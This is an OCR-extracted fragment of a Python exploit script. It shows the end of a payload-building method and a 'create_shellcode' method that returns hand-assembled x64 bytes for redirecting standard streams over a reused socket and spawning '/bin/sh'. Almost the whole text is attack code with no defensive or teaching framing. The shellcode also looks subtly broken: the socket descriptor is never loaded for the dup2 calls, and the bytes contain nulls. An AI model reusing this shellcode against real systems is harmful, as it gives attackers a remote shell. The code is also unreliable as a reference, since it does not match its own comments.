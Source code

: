         final_payload = ":".join(payload_parts) + "\n"
        
        return final_payload.encode('utf-8')
    
    def create_shellcode(self):
        """
        Create position-independent shellcode
        """
        # x64 execve("/bin/sh") with socket reuse
        shellcode = (
            # Save socket fd
            b"\x41\x54"                         # push r12
            b"\x41\x55"                         # push r13
            b"\x41\x56"                         # push r14
            
            # dup2 syscall to redirect stdin/stdout/stderr
            b"\x6a\x21"                         # push 0x21 (dup2)
            b"\x58"                             # pop rax
            b"\x6a\x00"                         # push 0 (stdin)
            b"\x5e"                             # pop rsi
            b"\x0f\x05"                         # syscall
            
            b"\x6a\x21"                         # push 0x21 (dup2)
            b"\x58"                             # pop rax
            b"\x6a\x01"                         # push 1 (stdout)
            b"\x5e"                             # pop rsi
            b"\x0f\x05"                         # syscall
            
            b"\x6a\x21"                         # push 0x21 (dup2)
            b"\x58"                             # pop rax
            b"\x6a\x02"                         # push 2 (stderr)
            b"\x5e"                             # pop rsi
            b"\x0f\x05"                         # syscall
            
            # execve("/bin/sh")
            b"\x48\x31\xf6"                    # xor rsi, rsi
            b"\x56"                             # push rsi
            b"\x48\xbf\x2f\x62\x69\x6e\x2f\x73\x68\x00"  # mov rdi, '/bin/sh\x00'
            b"\x57"                             # push rdi
            b"\x54"                             # push rsp
            b"\x5f"                             # pop rdi
            b"\x6a\x3b"                         # push 0x3b
            b"\x58"                             # pop rax
            b"\x99"                             # cdq
            b"\x0f\x05"                         # syscall
        )
        
        return shellcode
    
